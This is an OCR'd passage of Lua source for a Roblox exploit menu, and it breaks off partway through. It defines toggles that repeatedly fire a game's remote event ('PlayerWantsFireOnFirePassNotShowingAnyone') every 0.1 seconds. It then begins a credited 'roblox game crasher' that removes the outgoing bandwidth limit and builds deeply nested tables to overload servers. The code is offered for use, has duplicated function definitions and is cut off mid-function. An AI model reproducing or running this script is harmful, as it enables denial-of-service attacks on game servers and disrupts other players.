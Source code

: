 game:GetService("ReplicatedStorage").RE:FindFirstChild("1Player1sHous1e"):FireServer(unpack(args))
  	end    
})

local toggleActive = false
local function repeatRemote()
while toggleActive do
local args = {
[1] = "PlayerWantsFireOnFirePassNotShowingAnyone"
}

game:GetService("ReplicatedStorage").RE:FindFirstChild("1Player1sHous1e"):FireServer(unpack(args))
wait(0.1) -- intervalo de 1 segundo entre cada repetição
end
end

Tab:AddToggle({
Name = "loop Fire ",
Default = false,
Callback = function(value)
toggleActive = value
if toggleActive then
repeatRemote()
end
end
})

local toggleActive = false
local function repeatRemote()
while toggleActive do
--This is a simple roblox game crasher made by casanova
--Github cfreemepq
--fixed script*

while wait(0.6) do --// don't change it's the best
game:GetService("NetworkClient"):SetOutgoingKBPSLimit(math.huge)
local function getmaxvalue(val)
   local mainvalueifonetable = 499999
   if type(val) ~= "number" then
       return nil
   end
   local calculateperfectval = (mainvalueifonetable/(val+2))
   return calculateperfectval
end

local function bomb(tableincrease, tries)
local maintable = {}
local spammedtable = {}

table.insert(spammedtable, {})
z = spammedtable[1]

for i = 1, tableincrease do
    local tableins = {}
    table.insert(z, tableins)
    z = tableins
end

